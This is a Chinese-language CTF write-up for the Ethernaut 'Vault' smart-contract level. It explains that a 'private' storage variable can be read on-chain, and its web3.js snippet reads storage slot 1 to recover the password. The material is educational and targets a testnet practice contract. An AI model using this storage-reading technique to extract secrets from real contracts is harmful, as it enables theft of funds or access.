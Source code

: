 # Vault

> 打开 vault 来通过这一关!



### 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

## 攻击思路

### 黑猫

合约无解，但是password作为明文在构造时传入了，只要找到构造合约的交易就能找到password。我在[Etherscan](https://rinkeby.etherscan.io/address/0x4958d0e84c5709afa517772557e478a190cc5996#code)上查看合约时发现提示：

![image-20220525144931517](./网站提示.png)

然后我点进提示的地址：0xB32Ef1e8b55FE270Bc665F52076bc677B0D02f8f

发现这个合约与我的实例合约一样，并且这个合约有明文的构造函数

![image-20220525145216653](./构造函数.png)

抱着试一试的态度，居然成了。

![image-20220525145318261](./试一试.png)

不过这纯属瞎猫碰到死耗子。不是该题的正确解题思路。



### 白猫

web3.js有函数：getStorageAt

```js
// 获取地址在某个特定位置的存储值。
// 参数
//	String - 用来获取存储值的地址。

//	Number|String|BN|BigNumber - 存储的索引位置。

//	Number|String|BN|BigNumber - (可选) 如果传入值则会覆盖通过 //web3.eth.defaultBlock 设置的默认区块号。预定义的区块号可以使用 "latest","earliest" "pending", 和 "genesis" 等值。

//	Function - (可选) 可选的回调函数，其第一个参数为错误对象，第二个参数为函数运行结果。

// 返回值
//	Promise 返回 String - 给定位置的存储值。

web3.eth.getStorageAt(address, position [, defaultBlock] [, callback])

```



## 攻击代码

根据solidity中变量存储在内存插槽（一个slot有256位，32个字节）中，在被攻击合约中有两个变量：

```solidity
  bool public locked;// boo1占8个字节，一个插槽中可以放32个bool，locked占了插槽0中1个字节，此时插槽0还有31个字节
  bytes32 private password;// bytes32占32个字节，因为插槽0中还有31个字节，不够放password的32个字节，所以password占插槽1
```

```js
//初始化基本对象
const Web3 = require('web3');
const web3 = new Web3(new Web3.providers.HttpProvider("https://rinkeby.infura.io/v3/4d7440b583e447f7b7d5630b038e0dc7"));

web3.eth.getStorageAt("0x0b8D3e77A426537E467F797a46C61F6CF6476790", 1)
.then(console.log);
```



请记住, 将一个变量设制成私有, 只能保证不让别的合约访问他. 设制成私有的状态变量和本地变量, 依旧可以被公开访问.

为了确保数据私有, 需要在上链前加密. 在这种情况下, 密钥绝对不要公开, 否则会被任何想知道的人获得. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) 提供了一个可以判断某个人是否有某个秘密参数的方法,但是不必透露这个参数.

生成新实例前往下一关